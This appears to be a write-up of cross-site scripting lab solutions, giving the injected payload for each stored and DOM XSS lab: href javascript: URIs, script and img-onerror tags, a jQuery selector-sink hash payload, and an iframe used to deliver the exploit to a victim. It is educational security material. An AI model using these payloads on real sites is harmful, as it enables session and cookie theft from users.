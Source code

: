 ### Stored XSS LAB 2

Our input is reflected inside an href a tag attribute of the website input, as such, we can simply inject `javascript:alert()`.

### DOM XSS LAB 1

There's no encoding, so all we need to do is insert the most common payload of all - `<script>alert(1);</script>`

### DOM XSS LAB 2

We can't inject tags that execute XSS inside `<select>, we close it first. Meaning the final payload is: `"></select><img+src="x"+onerror="alert()">`

###DOM XSS LAB 3

We can't inject `<script>` or `<svg>`  inside document.write, so we inject: `<img src=x onerror=alert()>`

### DOM XSS Lab 4

In this case, we have jquery changing the attribute value of an html tag with `attr`:

```
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});

```

As such, we can simply use javascript:alert(document.cookie in returnUrl) to solve this lab.

### DOM XSS LAB 5

This one utilizes the selector sink with window.location.hash:

```
$(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });

```
**VULNERABLE SNIPPET**:

`var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');`

The `$()` selector sink can inject malicious objects onto the DOM, as such, if we craft a payload like: `#<img src=/ onerror=print()>`, a print page will pop up.

With that in mind, we can deliver this exploit to the victim:

`<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">` It loads the iframe with that given src and when it loads, appends an xss payload to that src.

### XSS to steal cookies
